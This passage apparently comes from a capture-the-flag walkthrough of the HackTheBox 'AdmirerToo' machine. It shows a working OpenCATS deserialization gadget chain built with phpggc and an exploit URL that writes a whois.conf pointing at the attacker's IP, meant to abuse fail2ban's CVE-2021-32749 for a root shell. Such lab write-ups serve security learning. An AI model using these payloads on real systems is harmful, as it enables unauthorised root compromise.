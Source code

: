 It seems like an old version, and searches for it return information about CVE-2021-32749, which involves the whois mail action and allows a command injection as root. Great, but can we exploit this? Let's see in the configuration file:
```
jennifer@admirertoo:/opt/opencats/upload$ cat /etc/fail2ban/jail.local 
[DEFAULT]
ignoreip = 127.0.0.1
bantime = 60s
destemail = root@admirertoo.htb
sender = fail2ban@admirertoo.htb
sendername = Fail2ban
mta = mail
action = %(action_mwl)s
```

`action_mwl` is the whois-mail action! This means we can exploit it, but only if we can control the whois server or perform an MITM attack. We don't exactly have to do those things; why not CREATE the server? This is where the file write comes in handy; if we find a way to make a whois configuration file that calls back to our server, we can inject the command and gain a root shell. Since there's no `/etc/whois.conf` file, we can write into `/usr/local/etc` instead and have fail2ban grab the whois config from here.

Since it's looking up our IP and we need it to call back to our server, we'll have the fornat config file look like this:
```
<IP> <IP>
```

For me, it looks like this:
```
10.10.14.12 10.10.14.12
```

Now we go onto generating the gadget chain to write this file:
```
./phpggc -u --fast-destruct Guzzle/FW1 /usr/local/etc/whois.conf whois.conf    
a%3A2%3A%7Bi%3A7%3BO%3A31%3A%22GuzzleHttp%5CCookie%5CFileCookieJar%22%3A4%3A%7Bs%3A41%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00filename%22%3Bs%3A25%3A%22%2Fusr%2Flocal%2Fe  
tc%2Fwhois.conf%22%3Bs%3A52%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00storeSessionCookies%22%3Bb%3A1%3Bs%3A36%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00cookies%22%3Ba%3A1%3  
A%7Bi%3A0%3BO%3A27%3A%22GuzzleHttp%5CCookie%5CSetCookie%22%3A1%3A%7Bs%3A33%3A%22%00GuzzleHttp%5CCookie%5CSetCookie%00data%22%3Ba%3A3%3A%7Bs%3A7%3A%22Expires%22%3Bi%3A1%3Bs%3A7%  
3A%22Discard%22%3Bb%3A0%3Bs%3A5%3A%22Value%22%3Bs%3A24%3A%2210.10.14.12+10.10.14.12%0A%22%3B%7D%7D%7Ds%3A39%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00strictMode%22%3BN%3B%7Di%3  
A7%3Bi%3A7%3B%7D
```

While logged into OpenCATS with jennifer's credentials, we can exploit the gadget chain through accessing a URL like this:
```
http://127.0.0.1:8080/index.php?m=activity&parametersactivity%3AActivityDataGrid=a%3A2%3A%7Bi%3A7%3BO%3A31%3A%22GuzzleHttp%5CCookie%5CFileCookieJar%22%3A4%3A%7Bs%3A41%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00filename%22%3Bs%3A25%3A%22%2Fusr%2Flocal%2Fetc%2Fwhois.conf%22%3Bs%3A52%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00storeSessionCookies%22%3Bb%3A1%3Bs%3A36%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00cookies%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A27%3A%22GuzzleHttp%5CCookie%5CSetCookie%22%3A1%3A%7Bs%3A33%3A%22%00GuzzleHttp%5CCookie%5CSetCookie%00data%22%3Ba%3A3%3A%7Bs%3A7%3A%22Expires%22%3Bi%3A1%3Bs%3A7%3A%22Discard%22%3Bb%3A0%3Bs%3A5%3A%22Value%22%3Bs%3A24%3A%2210.10.14.12+10.10.14.12%0A%22%3B%7D%7D%7Ds%3A39%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00strictMode%22%3BN%3B%7Di%3A7%3Bi%3A7%3B%7D
```
